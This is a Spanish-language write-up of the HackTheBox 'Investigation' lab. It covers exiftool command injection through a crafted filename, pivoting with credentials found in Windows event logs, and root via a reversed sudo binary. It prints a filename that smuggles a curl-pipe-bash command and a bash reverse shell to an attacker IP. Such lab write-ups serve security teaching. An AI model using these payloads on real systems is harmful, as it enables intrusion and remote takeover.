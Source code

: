 ```yaml
---
layout: single
title: HackTheBox - Investigation writeup
date: 2023-02-09
classes: wide
header:
  teaser: /assets/images/HackTheBox/Investigation/Investigation.png
  teaser_home_page: true
categories:
  - HackTheBox  
  - Medium
tags:
  - Exiftool
  - Microsoft Outlook
  - Event log
  - Sudo
  - Reversing
---
```


![](/assets/images/HackTheBox/Investigation/Investigation.png)

En la máquina de hoy abusaremos de una version desactualizada de `exiftool` que nos permitirá ejecutar comandos y ganar acceso. Encontraremos un archivo `.msg` (correo electrónico de Microsoft Outlook) dentro de la máquina que contendrá un archivo `.zip` con eventos de windows (.evtx), gracias a los eventos podremos encontrar credenciales expuestas para conectarnos por **ssh** (user pivoting). Para la escalada de privilegios podremos ejecutar un binario como **root** sin necesidad de contraseña, tendremos que hacer reversing al binario para entender qué es lo que esta haciendo y poder ganar una consola como root.

## Índice
* [Nmap, Fuzzing y Reconocimiento](#nmap-fuzzing-y-reconocimiento)
* [Exiftool RCE](#exiftool-rce)
* [User Pivoting](#user-pivoting)
* [Reversing and Privilege Escalation](#reversing-and-privilege-escalation)

## Nmap, Fuzzing y Reconocimiento

Como siempre, en la fase de reconocimiento usamos nmap:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap/Puertos.txt 10.10.11.197
```

```
Puertos.txt

# Nmap 7.92 scan initiated Tue Jan 31 08:16:10 2023 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap/Puertos.txt 10.10.11.197
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.197 ()   Status: Up
Host: 10.10.11.197 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///    Ignored State: closed (65533)
# Nmap done at Tue Jan 31 08:16:23 2023 -- 1 IP address (1 host up) scanned in 12.34 seconds
```

La máquina tiene 2 puertos abiertos, 22 y 80:

```bash
nmap -p22,80 -sVC -oN nmap/VersionServicios.txt 10.10.11.197
```

```
VersionServicios.txt

# Nmap 7.92 scan initiated Tue Jan 31 08:17:12 2023 as: nmap -p22,80 -sVC -oN nmap/VersionServicios.txt 10.10.11.197
Nmap scan report for eforenzics.htb (10.10.11.197)
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f:1e:63:06:aa:6e:bb:cc:0d:19:d4:15:26:74:c6:d9 (RSA)
|   256 27:45:20:ad:d2:fa:a7:3a:83:73:d9:7c:79:ab:f3:0b (ECDSA)
|_  256 42:45:eb:91:6e:21:02:06:17:b2:74:8b:c5:83:4f:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: eForenzics - Premier Digital Forensics
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 31 08:17:21 2023 -- 1 IP address (1 host up) scanned in 9.67 seconds
```

Para enumerar un poco la página web por consola, antes de ir directamente al navegador, voy a utilizar `whatweb`.

![](/assets/images/HackTheBox/Investigation/whatweb.png)

La máquina está utilizando **Virtual Hosting**, para que nos resuelva tenemos que añadir una línea en el **/etc/hosts**

```
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
# Others

10.10.11.197   eforenzics.htb
```

![](/assets/images/HackTheBox/Investigation/whatweb2.png)

## Exiftool RCE

La página principal nos dice que que podemos subir una foto gratis y que nos harán forense a la foto que subamos.

> http://eforenzics.htb/service.html

![](/assets/images/HackTheBox/Investigation/upload.png)

Cuando subimos una foto cualquiera podremos confirmar que está utilizando `exiftool` para hacer forense a la foto, pero esta versión de exiftool es vulnerable a inyección de comandos (versiones menores a la 12.38).<br>

![](/assets/images/HackTheBox/Investigation/exiftool.png)

La inyección se acontece cuando el nombre del archivo termina con un pipe `|`.<br>

* [CVE-2022-23935](https://nvd.nist.gov/vuln/detail/CVE-2022-23935)

Para ejecutar comandos he copiado una imagen real  y la he llamado <code>`curl 10.10.14.174|bash` |</code>. Estaré compartiendo un servidor http con python para mandarme la **reverse shell**.

```bash
cp /home/ch3chu/Descargas/wallpaper.png '`curl 10.10.14.174|bash` |'
```

![](/assets/images/HackTheBox/Investigation/file.png)

```bash
echo -e '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/10.10.14.174/443 0>&1"' > index.html
```

![](/assets/images/HackTheBox/Investigation/index.png)

Nos levantamos el servidor HTTP y a la vez nos ponemos a la escucha por el puerto **443**:

![](/assets/images/HackTheBox/Investigation/http.png)

Subimos la foto y recibimos la shell:

![](/assets/images/HackTheBox/Investigation/uploadPng.png)

![](/assets/images/HackTheBox/Investigation/www-data.png)

## User Pivoting

Al enumerar el sistema y buscar archivos de los usuarios existentes encontramos un archivo `.msg`.

![](/assets/images/HackTheBox/Investigation/find.png)

Los archivos con extensión **.msg** son archivos de correo electrónico en formato Microsoft Outlook. Representan mensajes de correo electrónico que se guardan localmente en el ordenador y se pueden abrir con Microsoft Outlook o cualquier otro programa que sea compatible con el formato **.msg**. Estos archivos contienen información sobre el remitente, el destinatario, el asunto, el cuerpo del mensaje, adjuntos y otras propiedades relacionadas con el correo electrónico. También pueden incluir información de seguimiento y elementos de calendario como citas y reuniones.<br>
Lo que hice en su momento fue transferirme este archivo a una máquina windows y darle doble click:

![](/assets/images/HackTheBox/Investigation/mensage.png)

Vemos que tiene un comprimido `zip` adjunto, si lo descomprimimos podemos ver que tiene un archivo con extensioin `evtx`, esta extensión se utiliza para los event log de windows. Lo más facil es transferirse este archivo a una máquina windows y darle doble click para poder inspeccionar los **logs** facilmente.<br>
En concreto hay un **ID de evento** *4776* que se registra cada vez que un controlador de dominio (DC) intenta validar las credenciales de una cuenta usando NTLM sobre Kerberos. Este evento también se registra para los intentos de inicio de sesión en la cuenta SAM local en estaciones de trabajo y servidores Windows, ya que NTLM es el mecanismo de autenticación predeterminado para el inicio de sesión local.

![](/assets/images/HackTheBox/Investigation/4776.png)

Vemos que hay credenciales expuestas, lo mas seguro es que sean del usuario `smorton`, lo cual me permite conectarme por **ssh**.

## Reversing and Privilege Escalation

Una vez estemos loggeados como `smorton` tenemos que volver a enumerar el sistema. Esta vez podemos ejecutar un binartio `/usr/bin/binary` como root sin necesidad de contraseña:

![](/assets/images/HackTheBox/Investigation/sudo.png)

Para saber un poco mejor que es lo que hace este ejecutable me creé un proyecto en `hydra` para poder leer el codigo en **C** y analizarlo. Básicamente este ejecutable primero valida si el número de argumentos que le estamos pasando es 3, si no, el programa sale; luego valida si el usuario que lo esta ejecutando es **root**, y por ultimo está comparando el ultimo argumento con una cadena de texto `lDnxUysaQn`, si no es la misma cadena se para el programa.

![](/assets/images/HackTheBox/Investigation/hydra.png)

Ahora que sabemos como ejecutar el programa correctamente, tenemos que entender que hace. Este trozo del codigo esta creando un archivo llamado como el último argumento que le pasemos, en este caso `lDnxUysaQn`, luego está realizando un curl al primero arugmento y lo esta guardando en el archivo creado.

![](/assets/images/HackTheBox/Investigation/hydra2.png)

Por último el programa está ejecutando el archivo `lDnxUysaQn` con perl.

![](/assets/images/HackTheBox/Investigation/hydra3.png)

Lo que me lleva a pensar es, ¿qué pasaría si pongo mi IP como primer argumento y me levanto un servidor HTTP con codigo en perl que me ejecute una bash?

![](/assets/images/HackTheBox/Investigation/index2.png)

![](/assets/images/HackTheBox/Investigation/index3.png)

![](/assets/images/HackTheBox/Investigation/root.png)
